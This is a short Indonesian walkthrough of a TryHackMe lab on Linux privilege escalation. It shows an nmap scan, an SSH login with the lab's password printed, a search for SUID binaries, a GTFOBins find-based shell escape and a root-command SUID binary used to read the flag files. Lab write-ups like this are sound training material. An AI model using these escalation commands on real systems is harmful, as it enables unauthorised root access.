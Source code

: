 hidupkan THM machine untuk menyelesaikan task.

<br>Q1:What port is SSH running on?
<br>Q2:Find and run a ile as igor. Read the file /home/igor/flag1.txt
<br>Q3:Find another binary file that has SUID bit set. Using this file, can you become the root
user and read the /root/flag2.txt file?


<br>A1:
gunakan `nmap` untuk melakukan scanning port. untuk melakukannya secara lebih cepat,
dapat menggunakan command berikut:
```shell
nmap -p- -v --min-parallelism 100 <IP>
```

<br>A2:
selanjutnya konek ke ssh dengan user, ip dan port yang sudah didapatkan dengan command
```shell
ssh holly@<IP> -p PORT

enter password : tuD@4vt0G*TU
```
untuk dapat membaca flag1.txt kita perlu menjadi user `igor`. kita dapat melakukannya dengan
melakukan privilege escalation dengan mencari file SUID binary. kita dapat melakukannya
dengan command
```shell
find / -perm /4000 -exec ls -la {} \; 2>/dev/null
```
nantinya akan ketemu file SUID milik igor, yang dapat di eksekusi juga oleh grup, yaitu
`/usr/bin/find`. kita dapat melakukan privesc dengan command yang sudah disediakan oleh
[GTFOBins](gtfobins.github.io), yaitu
```shell
<full path of file>/find . -exec /bin/sh -p \; -quit
```
setelah kita run, maka nantinya kita dapat berpindah menjadi user igor, kita dapat
mengeceknya dengan run command `whoami`. jika sudah, kita dapat melihat isi dari
flag1.txt dengan cara
```shell
cat /home/igor/flag1.txt
```

<br>A3:
<br>untuk dapat berpindah privilege yang lebih tinggi, yaitu menjadi `root`, kita perlu mencari
file SUID yang lain. dan yang bisa kita gunakan adalah file `/usr/bin/system-control`.
ketika kita langsung memasukkan itu dalam command, nantinya kita dapat input command dan
dijalankan sebagai root. jadi kita bisa melihat isi dari flag yang kedua
```shell
holly@ip-10-10-156-19:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: ls /root
flag2.txt  snap

holly@ip-10-10-156-19:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: cat /root/flag2.txt
```
